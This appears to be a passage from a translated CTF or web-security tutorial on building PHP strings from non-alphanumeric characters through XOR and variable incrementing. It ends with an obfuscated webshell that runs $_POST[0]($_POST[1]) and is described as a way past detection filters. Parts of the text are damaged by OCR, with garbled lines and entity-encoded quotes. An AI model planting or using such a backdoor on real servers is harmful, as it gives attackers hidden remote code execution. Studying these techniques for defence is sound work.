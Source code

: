 ```

```



The code execution results are as follows:


![](./figure/preg_match/answer2.png)



Let&#39;s analyze the above code together:


1, `$_++; ` This line of code means to increment the variable named `&quot;_&quot;`, the default value of the variable undefined in `PHP` `null`, `null== False==0`, we can get a number by auto-incrementing the undefined variable without using any numbers.


2, `$__=&quot;?&quot; ^ &quot;}&quot;; ` XOR the characters `?` and `}`, and get the result `B` assigned to the variable named `__` (two underscores)


3, `$ __ (); ` Through the above assignment operation, the value of the variable `$__` is `B`, so this line can be regarded as `B()`. In `PHP`, this line of code represents The function `B` is called, so the result is `Hello Angel_Kitty`. In `PHP`, we can treat strings as functions.


Seeing this, I believe that if you see a similar `PHP` backdoor, you should not be so confused. You can use the sentence analysis of the backdoor code to understand the functions that the backdoor wants to achieve.


We want to use this backdoor to create strings that bypass the detection and are useful to us, such as `_POST` , `system` , `call_user_func_array `, or whatever we need.


Here is a very simple non-alphanumeric `PHP` backdoor:


```

<?php

    @$_++; // $_ = 1

    $__=("#"^"|"); // $__ = _

    $__.=("."^"~"); // _P

$ __. = (&quot;/&quot; ^ &quot;` &quot;); // _PO
$ __. = (&quot;|&quot; ^ &quot;/&quot;); // _POS
    $__.=("{"^"/"); // _POST 

    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);

?>

```
